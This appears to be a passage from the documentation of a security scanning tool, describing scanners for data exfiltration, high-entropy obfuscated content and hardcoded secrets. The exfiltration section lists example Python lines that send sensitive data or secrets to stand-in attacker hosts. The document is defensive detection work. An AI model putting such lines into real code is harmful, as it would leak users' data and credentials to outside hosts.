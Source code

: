 ### 6. ExfiltrationScanner

**Purpose**: Identifies potential data theft attempts

**Detects**:
- Network communication code
- HTTP/HTTPS requests
- Socket connections
- File upload patterns
- External API calls

**Supported Formats**: All formats

**Example Patterns**:
```python
# Data exfiltration attempts
requests.post("http://attacker.com", data=sensitive_data)
urllib.request.urlopen(f"http://evil.com?data={secrets}")
socket.socket().connect(("attacker.com", 9999))
```

### 7. EntropyScanner

**Purpose**: Detects obfuscated or encrypted content

**Detects**:
- High entropy strings (>4.5 Shannon entropy)
- Base64 encoded content
- Encrypted payloads
- Obfuscated code
- Compressed data

**Supported Formats**: All formats

**Entropy Thresholds**:
- High: >4.5 (likely encrypted/obfuscated)
- Medium: 3.5-4.5 (possibly encoded)
- Low: <3.5 (normal text/code)

### 8. SecretScanner

**Purpose**: Detects hardcoded credentials and secrets

**Detects**:
- API keys (AWS, Google, GitHub, OpenAI, etc.)
- Passwords and tokens
- Private keys (RSA, SSH, PGP)
- Database credentials
- JWT tokens
- Webhook URLs

**Supported Formats**: All text-based formats including:
- Code files (`.py`, `.js`, `.java`, etc.)
- Config files (`.json`, `.yaml`, `.env`, etc.)
- Model files with embedded metadata
